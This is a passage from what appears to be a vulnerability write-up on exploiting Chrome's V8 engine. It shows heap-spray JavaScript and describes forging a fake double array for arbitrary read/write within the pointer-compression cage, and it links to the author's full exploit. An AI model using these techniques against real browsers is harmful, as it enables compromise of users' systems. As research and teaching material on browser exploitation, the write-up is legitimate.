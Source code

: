 ```
            |----- 32 bits -----|----- 32 bits -----|
Pointer:    |________base_______|_____0x083xxxxx____|
```

Thus, it is quite easy to guess sprayed heap address :)

```javascript
var victim_array = [];
victim_array.length = 0x1000;

var double_array = [1.1];
double_array.length = 0x10000;
double_array.fill(1.1);

function spray_heap() {
    for(var i = 0;i < victim_array.length;i++){
        victim_array[i] = double_array.slice(0,double_array.length);
    }
}

spray_heap();
%DebugPrint(double_array);
```

### Exploit

After getting sprayed objects address, we need to build fake object.
We usually build fake `PACKED_DOUBLE_ELEMENTS` array to **READ/WRITE caged region (compressed pointer)** by switching its `ELEMENTS` field.

There are 2 options to make `PACKED_DOUBLE_ELEMENTS` array.

1. Basic **Maps** have static low 32 bits value, so we can use it without any memory leak. (But this value is different from version to version, device to device).
2. Build fake **Map** and make fake object with that **Map**.

I used **[1]** method to make just reference exploit.  
You can see my exploit in [here](https://github.com/vngkv123/aSiagaming/tree/master/Chrome-v8-1260577)  
So if you want to stable exploit, i think you have to use second method :)



